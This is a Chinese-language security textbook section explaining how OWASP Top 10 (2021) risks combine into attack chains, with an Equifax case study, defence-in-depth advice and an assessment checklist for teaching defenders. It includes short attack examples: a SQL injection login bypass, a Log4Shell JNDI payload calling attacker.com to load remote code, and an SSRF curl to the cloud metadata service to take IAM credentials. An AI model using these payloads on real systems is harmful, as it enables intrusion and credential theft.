


## 14.12 十大风险之间的关系

### 14.12.1 为什么必须理解风险之间的关系

OWASP Top 10 的十个风险类别不是一份孤立的清单，而是一张相互关联的网络。现实中几乎不存在"单一漏洞导致完整入侵"的场景——攻击者总是组合利用多个弱点来完成从初始突破到最终目标达成的全过程。2024年Verizon DBIR报告指出，超过80%的数据泄露事件涉及两个或更多漏洞类别的协同利用。

理解风险之间的关系具有三重意义：

- **对于攻击者**：识别一条风险可以作为另一条风险的跳板，构造多阶段攻击链，显著提高入侵成功率和影响范围。
- **对于防御者**：修补一个漏洞可能切断整条攻击链的关键环节；反之，忽视关联性会导致"头痛医头"的无效防御。
- **对于架构师**：在系统设计阶段就考虑风险之间的耦合关系，可以从根源上消除多米诺骨牌式的连锁失效。

### 14.12.2 关系全景图

下图展示了 OWASP Top 10（2021版）十大风险之间的核心关联关系。箭头方向表示"风险A的存在会增加风险B被利用的可能性或影响力"。



**图注**：红色节点（A04）是根源性风险，橙色节点（A01）是最常见的被攻击目标，紫色节点（A09）是放大效应的关键因素。

### 14.12.3 四种关联模式

风险之间的关系可以归纳为四种核心模式，理解这些模式比记住具体的两两关系更有价值。

#### 模式一：因果链——一个风险是另一个风险的根源

某些风险在因果逻辑上存在先后顺序。A04（不安全设计）是典型的根源性风险——它在设计层面就埋下了隐患，后续的所有技术层面漏洞都是设计缺陷的表现。

| 根源风险 | 表现风险 | 因果机制 |
|---------|---------|---------|
| A04 不安全设计 | A01 访问控制失效 | 缺乏权限模型设计，开发者凭直觉实现访问控制，必然遗漏边界场景 |
| A04 不安全设计 | A03 注入 | 未在设计阶段确定输入验证策略，各模块各自为政，遗漏点即注入点 |
| A04 不安全设计 | A07 身份认证失效 | 未设计密码策略、会话管理方案和多因素认证流程，上线后补丁式修复 |
| A05 安全配置错误 | A06 脆弱组件 | 未建立组件清单和更新机制，过时组件在配置管理的盲区中长期存活 |
| A02 加密机制失效 | A07 身份认证失效 | 密码使用弱哈希（MD5/SHA1）存储，一旦数据库泄露即可离线破解 |

**实例**：2017年Equifax数据泄露事件。根源是A04（设计阶段未考虑Apache Struts组件的补丁管理机制），导致A06（Struts框架漏洞CVE-2017-5638长期未修补），最终攻击者通过该漏洞获取了内部系统的初始访问权限。由于A05（内部系统使用默认凭据和过度宽松的网络配置），攻击者横向移动到多个数据库。由于A02（敏感数据包括SSN使用不充分的加密保护），1.47亿用户的个人信息被明文或弱加密方式存储，全部泄露。由于A09（缺乏有效的入侵检测和日志监控），攻击者在系统内驻留了76天才被发现。

这个案例展示了从A04→A06→A05→A02→A09的完整因果链，单一的源头缺陷通过连锁反应造成了灾难性后果。

#### 模式二：放大效应——一个风险加剧另一个风险的影响

某些风险本身不直接导致入侵，但当其他风险被利用时，它们会显著放大攻击的影响范围和严重程度。A09（安全日志与监控失效）是最典型的放大器。

```text
┌─────────────────────────────────────────────────────────────┐
│                    放大效应模型                              │
│                                                             │
│  基础攻击 ──→ 被放大的风险 ──→ 实际影响                     │
│                                                             │
│  A01 访问控制失效                                           │
│       │                                                     │
│       ├──→ [无A09] 检测到异常访问 → 响应 → 损失有限          │
│       │                                                     │
│       └──→ [有A09] 未被发现 → 持续数月 → 数据全量泄露        │
│                                                             │
│  A03 注入攻击                                               │
│       │                                                     │
│       ├──→ [无A09] 异常SQL日志告警 → 阻断 → 小规模影响       │
│       │                                                     │
│       └──→ [有A09] 无任何告警 → 持续渗透 → 完整数据库沦陷     │
│                                                             │
│  A02 加密失效                                               │
│       │                                                     │
│       ├──→ [无A09] 密钥访问异常告警 → 撤换密钥 → 数据安全    │
│       │                                                     │
│       └──→ [有A09] 无人知晓密钥泄露 → 全量数据可解密         │
└─────────────────────────────────────────────────────────────┘
```

放大效应的量化：根据Mandiant M-Trends 2024报告，具备完善安全监控（A09合格）的企业，平均检测时间为16天；而监控失效（A09不合格）的企业，平均检测时间为204天。这188天的差距意味着攻击者有充足的时间完成数据窃取、横向移动和持久化驻留。

除了A09，A02（加密机制失效）同样是强放大器：

- 当A01被利用导致数据库被访问时，如果A02也存在（数据未加密），则攻击者直接获取明文敏感数据。
- 当A06被利用（组件漏洞）时，如果A02也存在（TLS配置不当），则中间人攻击可以截获本应受保护的传输数据。
- 当A07被利用（会话劫持）时，如果A02也存在（session token使用弱随机数生成），则会话令牌可被预测，攻击面从单个用户扩大到所有在线用户。

#### 模式三：协同利用——两个风险组合产生1+1>2的效果

某些风险单独存在时危害有限，但当它们同时存在并被组合利用时，会产生远超各自单独效果的攻击能力。

**经典组合一：A03（注入）+ A07（身份认证失效）= 认证绕过**

这是最经典的攻击组合。SQL注入本身可以读取数据，身份认证失效本身可能只是弱密码问题，但两者结合可以完全绕过认证机制。

```sql
-- 登录表单的SQL查询（存在注入漏洞）
SELECT * FROM users WHERE username = '{input}' AND password = '{hash}'

-- 攻击者输入: admin' --
-- 实际执行的SQL:
SELECT * FROM users WHERE username = 'admin' --' AND password = '{hash}'

-- 密码验证被注释掉，直接以admin身份登录
-- 单独的A03只能读数据，单独的A07只是弱密码
-- 两者组合 = 任何人无需密码即可登录任意账户
```

**经典组合二：A01（访问控制失效）+ A05（安全配置错误）= 管理接口全面暴露**

安全配置错误可能开启了管理接口（如Spring Boot Actuator、phpMyAdmin），而访问控制失效意味着这些接口没有任何认证保护。两者组合的结果是任何人都可以访问管理后台执行任意操作。

```yaml
# 典型的组合漏洞场景

# A05: 安全配置错误 — Spring Boot application.yml
management:
  endpoints:
    web:
      exposure:
        include: "*"        # 暴露所有Actuator端点
  server:
    port: 9090              # 监听所有接口

# A01: 访问控制失效 — 无认证保护
# /actuator/env    → 可查看所有环境变量（含数据库密码）
# /actuator/configprops → 可查看所有配置属性
# /actuator/heapdump    → 可下载JVM堆转储（含内存中的密钥和令牌）
# 以上所有端点均无需认证即可访问
```

**经典组合三：A10（SSRF）+ A02（加密机制失效）= 云环境全面沦陷**

SSRF本身只能让服务器发起内部请求，但如果目标是云环境且元数据服务未受保护，同时A02存在（密钥通过环境变量传递而非使用IAM角色），则攻击者可以通过SSRF获取云服务商的临时凭据。

```bash
# 通过SSRF获取AWS元数据
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 如果A02存在（使用长期访问密钥而非临时凭据）
# 返回的凭据可用于：
aws s3 ls                          # 列出所有S3存储桶
aws ec2 describe-instances         # 列出所有EC2实例
aws iam list-users                 # 列出所有IAM用户
# 实际效果取决于IAM策略，但凭据本身的获取就是A02的失败
```

**经典组合四：A06（脆弱组件）+ A08（数据完整性失效）= 供应链攻击**

当使用了存在已知漏洞的组件（A06），且缺乏软件物料清单（SBOM）验证和完整性校验（A08）时，供应链攻击成为可能。攻击者可以向组件仓库投递恶意更新，或者利用组件的已知漏洞注入恶意代码。

以2020年SolarWinds事件为例：攻击者入侵了SolarWinds的构建系统（A08——软件完整性失效），在Orion平台的更新包中植入后门（SUNBURST）。由于客户未验证更新包的完整性（A08的另一面），且Orion组件版本过旧未及时更新（A06），后门被分发到18,000多个组织。

**经典组合五：A03（注入）+ A06（脆弱组件）= 远程代码执行**

当应用使用了存在已知RCE漏洞的组件（如Log4Shell的Log4j），且应用将用户输入传递给该组件时，注入攻击通过脆弱组件实现远程代码执行。

```java
// Log4Shell (CVE-2021-44228) 的攻击流程
// A06: 使用了Log4j 2.0-2.14.1（存在JNDI注入漏洞）
// A03: 用户输入被传递给日志记录

// 攻击者在HTTP Header中注入：
// User-Agent: ${jndi:ldap://attacker.com/exploit}

// 应用代码：
logger.info("Request from: " + request.getHeader("User-Agent"));

// Log4j解析JNDI表达式 → 连接攻击者的LDAP服务器
// → 下载并执行恶意类 → 远程代码执行
// 单独的A06（旧版Log4j）不会自动被利用
// 单独的A03（用户输入被记录）不会导致RCE
// 两者组合 = 通过HTTP请求实现完整的远程代码执行
```

#### 模式四：共现模式——某些风险倾向于同时出现

基于大量安全评估数据的统计分析，某些风险类别存在显著的共现倾向。这意味着发现其中一种风险时，应当主动检查其"配对"风险。

| 主要风险 | 高概率共现风险 | 共现原因 |
|---------|--------------|---------|
| A01 访问控制失效 | A09 日志监控失效 | 开发者关注功能实现，安全基础设施（权限模型和日志系统）往往被同等忽视 |
| A03 注入 | A07 认证失效 | 两者都源于输入处理不当，同一代码库中通常同时存在 |
| A04 不安全设计 | A01 访问控制失效 | 设计缺陷最直接的表现就是权限模型的缺失 |
| A05 配置错误 | A06 脆弱组件 | 两者都属于运维层面的疏忽，缺乏系统化的安全运维流程会导致两者同时出现 |
| A02 加密失效 | A07 认证失效 | 密码存储和会话管理都依赖加密机制，加密薄弱必然影响认证安全 |
| A08 完整性失效 | A06 脆弱组件 | 供应链安全是一个完整的领域，缺乏完整性校验必然导致无法有效管理组件来源 |

### 14.12.4 典型攻击链分析

真实攻击很少只利用单一漏洞。以下是三种典型的多阶段攻击链，展示风险之间的协作关系。

#### 攻击链一：从外部到域管（7步）

```text
步骤 1: A06 — 利用已知的Struts2 RCE漏洞获取Web服务器shell
  │
  ▼
步骤 2: A05 — 发现Web服务器以root权限运行（配置错误）
  │              读取配置文件获取数据库连接字符串
  ▼
步骤 3: A02 — 数据库密码以明文存储在配置文件中（加密失效）
  │              使用该凭据连接数据库
  ▼
步骤 4: A03 — 数据库存在SQL注入漏洞，通过堆叠查询执行系统命令
  │              获取数据库服务器操作系统权限
  ▼
步骤 5: A01 — 发现内网服务器之间无网络隔离（访问控制失效）
  │              横向移动到域控制器所在网段
  ▼
步骤 6: A07 — 域管理员使用简单密码 your_password123（认证失效）
  │              通过密码喷洒攻击获取域管凭据
  ▼
步骤 7: A09 — 整个攻击过程未触发任何告警（监控失效）
               攻击者在域控上安装后门，持续控制整个域
```

#### 攻击链二：从SSRF到云环境接管（5步）

```text
步骤 1: A10 — 应用存在SSRF漏洞，可以访问内网服务
  │
  ▼
步骤 2: A10 + A05 — 通过SSRF访问未限制的云元数据服务
  │                   获取IAM临时凭据
  ▼
步骤 3: A01 — IAM策略配置过于宽松（访问控制失效）
  │              凭据拥有S3读写权限
  ▼
步骤 4: A02 — S3存储桶中包含明文数据库备份和API密钥（加密失效）
  │              获取所有客户数据
  ▼
步骤 5: A09 — 无S3访问日志监控（监控失效）
               数据泄露数月后才被第三方发现
```

#### 攻击链三：供应链投毒到全面渗透（6步）

```text
步骤 1: A08 — 攻击者入侵npm/PyPI包维护者账户（完整性失效）
  │              向流行包发布包含后门的新版本
  ▼
步骤 2: A06 — 目标组织使用该包但未锁定版本（脆弱组件）
  │              npm install/pip install 自动拉取后门版本
  ▼
步骤 3: A03 — 后门在安装脚本（postinstall）中执行注入（注入）
  │              在构建服务器上建立反向shell
  ▼
步骤 4: A05 — CI/CD服务器配置包含生产环境凭据（配置错误）
  │              攻击者获取数据库访问权限
  ▼
步骤 5: A01 — 数据库无行级访问控制（访问控制失效）
  │              导出全部用户数据
  ▼
步骤 6: A09 — 无CI/CD流水线的完整性监控（监控失效）
               恶意代码通过正常发布流程部署到生产环境
```

### 14.12.5 根源分析：五大底层主题

将OWASP Top 10的十个风险进行深层次分析，可以提取出五个底层主题。这些主题不是独立的漏洞类型，而是产生多个漏洞的根本原因。



**主题一：信任边界意识薄弱**

这是最常见的底层原因。开发者在编写代码时没有明确界定哪些数据是可信的、哪些是不可信的。表现在：客户端提交的数据被直接信任（A03注入）、用户声称的身份被直接采信（A07认证失效）、内网请求被默认信任（A01访问控制失效，内网无鉴权）、来自内部服务的URL请求被信任（A10 SSRF利用内网信任）。

信任边界的核心原则是：永远不要信任外部输入。每一个跨越信任边界的调用都需要独立的验证，即使请求来自"内部"网络。

**主题二：安全需求未纳入开发生命周期**

这是A04（不安全设计）的直接体现，也是许多技术漏洞的根源。当安全不是需求阶段的非功能需求，而是上线前的"最后一道检查"时，架构层面的缺陷就不可避免。

安全需求应包括：访问控制矩阵（谁可以对什么资源执行什么操作）、威胁模型（识别信任边界和数据流）、密码策略和会话管理方案、输入验证策略（在哪个层做、做什么级别的验证）、加密需求（静态数据和传输数据的保护级别）、日志和审计需求（记录什么、保留多久、谁来审查）。

**主题三：安全运维能力不足**

涵盖A05（配置错误）和A06（脆弱组件），表现为：缺乏配置基线管理，新部署的服务使用默认配置；缺乏组件清单（SBOM），不知道生产环境运行了哪些组件的哪些版本；缺乏补丁管理流程，已知漏洞长期未修补；缺乏密钥管理，密钥硬编码在源码或配置文件中。

**主题四：可见性与监控缺失**

A09不仅仅是"没有日志"的问题。更深层的问题是安全团队对系统状态缺乏可见性：不知道谁在访问什么数据、不知道网络流量是否异常、不知道系统是否已被入侵。这种缺失会放大所有其他风险的影响。

**主题五：供应链信任过度**

A06和A08共享一个底层假设：第三方组件和供应链是可信的。现代应用的代码中，自行编写的代码通常只占10%-20%，其余80%-90%来自第三方库和框架。对供应链的盲目信任意味着将安全控制权外包给了数百个你从未审查过的项目维护者。

### 14.12.6 防御启示：从关联性看整体安全策略

理解风险之间的关联性，对制定安全策略有直接的指导意义。

#### 切断攻击链比逐一修补更高效

与其逐一修补10个风险类别中的每一个漏洞，不如识别攻击链的关键环节并优先阻断。在前述"从外部到域管"的7步攻击链中，如果在步骤3（A02加密失效——配置文件中的明文密码）处进行修复（使用密钥管理服务替代明文存储），后续步骤4-7全部被阻断。一次修复切断了5个后续攻击步骤。

优先阻断的高价值节点包括：

| 高价值阻断点 | 修复措施 | 可阻断的后续风险 |
|------------|---------|----------------|
| A04 不安全设计 | 引入威胁建模 | A01, A03, A07（预防性阻断） |
| A02 加密机制 | 全面加密 + 密钥管理 | A01（数据泄露后果）, A07（凭据泄露） |
| A09 安全监控 | 部署SIEM + 行为分析 | 所有风险的影响放大（检测性阻断） |
| A05 安全配置 | 配置基线 + 自动化审计 | A01, A06（暴露面收窄） |

#### 瑞士奶酪模型——纵深防御

James Reason的瑞士奶酪模型完美适用于理解OWASP Top 10的防御策略。每一层安全控制（奶酪片）都有其孔洞（弱点），但多层防御叠加时，所有孔洞同时对齐的概率极低。

```text
攻击方向 ──→

  ┌─────────┐  ┌─────────┐  ┌─────────┐  ┌─────────┐  ┌─────────┐
  │ 输入验证 │  │ 访问控制 │  │  加密   │  │ 安全配置 │  │ 安全监控 │
  │ (A03)   │  │ (A01)   │  │ (A02)   │  │ (A05)   │  │ (A09)   │
  │         │  │    ██   │  │         │  │   ██    │  │         │
  │   ██    │  │         │  │   ██    │  │         │  │    ██   │
  │         │  │    ██   │  │         │  │         │  │   ██    │
  └─────────┘  └─────────┘  └─────────┘  └─────────┘  └─────────┘
       ██ 存在弱点（孔洞）

  单独一层 → 攻击者可穿过孔洞
  多层叠加 → 所有孔洞对齐的概率极低 → 攻击被阻断
```

纵深防御在OWASP Top 10语境下的具体实现：

- **第一层（设计层）**：A04——威胁建模，从设计上消除风险
- **第二层（开发层）**：A03 + A07——安全编码，输入验证和认证实现
- **第三层（基础设施层）**：A05 + A06——安全配置和组件管理
- **第四层（数据层）**：A02——加密保护静态和传输中的数据
- **第五层（运维层）**：A09——监控和响应，作为最后一道防线

#### 安全投资的杠杆效应

理解风险关联性有助于优化安全投资的ROI。某些安全措施的投资回报率远高于其他措施，因为它们能同时降低多个风险：

| 安全措施 | 直接降低的风险 | 间接降低的风险 | 投资回报评估 |
|---------|--------------|--------------|------------|
| 引入威胁建模流程 | A04 | A01, A03, A07 | 极高——从源头减少多个漏洞的产生 |
| 部署WAF | A03 | A01（部分）, A10（部分） | 高——覆盖多种注入和Web攻击 |
| 实施密钥管理服务 | A02 | A07, A01 | 高——消除凭据泄露的连锁反应 |
| 建立SBOM和补丁管理 | A06 | A03, A08 | 中高——降低供应链和已知漏洞风险 |
| 部署SIEM和SOC | A09 | 所有（降低影响） | 高——缩短检测时间，降低平均损失 |
| 实施零信任架构 | A01, A07 | A03, A10, A05 | 极高——从根本上改变安全模型 |

### 14.12.7 实战案例：Equifax数据泄露的完整关联分析

2017年Equifax事件是展示OWASP Top 10风险关联性的教科书级案例。1.47亿用户数据泄露，直接损失超过7亿美元。

**时间线与风险映射**：

```text
2017年3月 ─ Apache Struts发布补丁（CVE-2017-5638）
             │
             │ ← A06: Equifax未及时应用补丁，漏洞窗口期长达2个月
             │
2017年5月 ─ 攻击者利用Struts漏洞获取Web服务器权限
             │
             │ ← A04: 架构设计将Web服务器与内部数据库放在同一网段
             │         无网络隔离，无最小权限设计
             │
             │ ← A05: Web服务器以高权限运行，配置文件可读
             │         配置文件中硬编码了数据库凭据
             │
2017年5月 ─ 攻击者读取配置文件获取数据库凭据
             │
             │ ← A02: 数据库密码以明文存储，无密钥管理
             │         未使用密钥管理服务或加密配置
             │
             │ ← A01: 凭据权限过大，单一凭据可访问多个数据库
             │         无最小权限原则，无行级访问控制
             │
2017年5-7月 ─ 攻击者在系统内横向移动，访问48个数据库
             │
             │ ← A09: 无有效的入侵检测和日志监控
             │         SSL检查设备因证书过期而失效长达19个月
             │         无法发现异常的数据库访问模式
             │
2017年7月 ─ Equifax内部安全团队发现异常流量
             │
             │ ← A09的后果: 从入侵到发现历时76天
             │               攻击者有充足时间窃取全部数据
             │
2017年9月 ─ 公开披露数据泄露事件
```

**关键教训**：如果Equifax在以下任何一处做好了防御，入侵的结果将截然不同：

- 修补A06（2个月内应用Struts补丁）→ 攻击者无法获得初始访问
- 修补A05（网络隔离+非root运行）→ 即使获得Web shell也无法访问数据库
- 修补A02（使用密钥管理）→ 即使获取配置文件也无法得到可用的数据库凭据
- 修补A01（最小权限）→ 单一凭据无法访问48个数据库
- 修补A09（有效监控）→ 76天的驻留期缩短到数小时或数天

任何一个环节的修复都可以将损失降低一个数量级。这就是理解风险关联性的价值——不是要同时修复所有问题，而是找到杠杆效应最大的那个节点优先修复。

### 14.12.8 风险关联性评估清单

在实际安全评估中，可以用以下清单系统化地检查风险之间的关联关系。当发现一个漏洞时，按照关联模式检查其"配对"风险是否存在。

```markdown
## 风险关联性评估清单

### 发现A01（访问控制失效）时，检查：
- [ ] A05: 是否存在默认配置暴露的管理接口？
- [ ] A09: 越权访问是否会被日志记录和告警？
- [ ] A02: 被越权访问的数据是否已加密保护？
- [ ] A07: 认证机制是否足以阻止自动化越权探测？

### 发现A02（加密机制失效）时，检查：
- [ ] A07: 密码存储是否使用了强哈希算法？
- [ ] A01: 密钥泄露后是否会导致更广泛的越权访问？
- [ ] A09: 密钥泄露或异常解密行为是否会被监控？

### 发现A03（注入）时，检查：
- [ ] A07: 注入是否可用于绕过认证机制？
- [ ] A06: 使用的框架/ORM是否存在已知注入绕过？
- [ ] A09: 注入尝试是否会被WAF或日志系统记录？

### 发现A04（不安全设计）时，检查：
- [ ] A01: 权限模型是否在设计阶段就存在缺陷？
- [ ] A03: 输入验证策略是否在架构层面被定义？
- [ ] A07: 认证和会话管理方案是否经过安全审查？

### 发现A05（安全配置错误）时，检查：
- [ ] A06: 过时组件是否因缺乏配置管理而未被发现？
- [ ] A01: 错误配置是否直接暴露了未授权的资源？
- [ ] A09: 安全相关配置（如日志级别）是否被正确设置？

### 发现A06（脆弱组件）时，检查：
- [ ] A08: 组件来源是否可信？是否验证了完整性？
- [ ] A01: 已知漏洞是否可用于绕过访问控制？
- [ ] A03: 已知漏洞是否可用于注入攻击？

### 发现A07（身份认证失效）时，检查：
- [ ] A02: 密码和凭据的存储加密是否足够强？
- [ ] A01: 认证绕过后是否有其他访问控制层？
- [ ] A09: 认证失败和异常登录是否会被记录和告警？

### 发现A08（数据完整性失效）时，检查：
- [ ] A06: 供应链组件是否通过完整性校验？
- [ ] A03: CI/CD管道是否存在注入风险？
- [ ] A05: 构建环境的配置是否安全？

### 发现A09（安全监控失效）时，检查：
- [ ] 所有其他风险：每个已知漏洞是否有对应的检测机制？
- [ ] A01: 越权访问是否有行为基线和异常告警？
- [ ] A03: 攻击载荷是否有WAF/IDS规则覆盖？

### 发现A10（SSRF）时，检查：
- [ ] A05: 内网服务和云元数据是否受到保护？
- [ ] A02: SSRF是否可用于访问含敏感数据的内部服务？
- [ ] A01: 内部服务之间是否存在访问控制？
```

### 14.12.9 关联性视角下的安全成熟度模型

基于对风险关联性的理解深度，可以将组织的安全成熟度划分为四个级别：

| 成熟度级别 | 特征描述 | 对风险关联的理解 |
|----------|---------|----------------|
| L1 被动响应 | 只在出现安全事件后才修复，每次只修复被利用的那个漏洞 | 不理解关联性，头痛医头 |
| L2 分类管理 | 按OWASP Top 10分类逐项检查和修补，每个类别独立处理 | 知道风险存在，但视为独立问题 |
| L3 关联分析 | 修复一个漏洞时会评估对其他风险的影响，建立攻击链模型 | 理解关联性，能识别攻击链 |
| L4 预测防御 | 基于底层主题进行系统性防御，威胁建模覆盖风险交互 | 深度理解，从根源防御 |

大多数组织处于L1-L2级别。达到L3级别需要安全团队具备跨领域的知识和系统化思维。达到L4级别则需要将安全深度融入开发和运维的每一个环节，从根本上消除产生多风险连锁反应的底层条件。

### 14.12.10 本节小结

OWASP Top 10的十大风险不是十个独立的问题，而是一个相互关联的安全风险网络。它们之间存在四种核心关系模式：

1. **因果链**：A04（不安全设计）是大多数技术漏洞的根源，其他风险往往是设计缺陷的表现。
2. **放大效应**：A02（加密失效）和A09（监控失效）会显著放大其他风险被利用后的实际影响。
3. **协同利用**：多个风险组合时，攻击效果远超各自单独的效果——A03+A07=认证绕过，A10+A05=云元数据泄露。
4. **共现模式**：某些风险倾向于同时出现，发现一个应主动检查其配对风险。

防御策略的核心启示：

- 优先切断攻击链的高价值节点（威胁建模、加密保护、安全监控）。
- 通过纵深防御（多层安全控制叠加）降低所有孔洞同时被突破的概率。
- 关注底层主题（信任边界、安全开发生命周期、运维能力、可见性、供应链信任）而非表面症状。
- 当发现任何一个漏洞时，使用关联性评估清单主动检查其配对风险。

理解了这些关系，你就不再是逐项检查清单的安全审计员，而是能够洞察风险网络、识别攻击路径、制定高效防御策略的安全架构师。
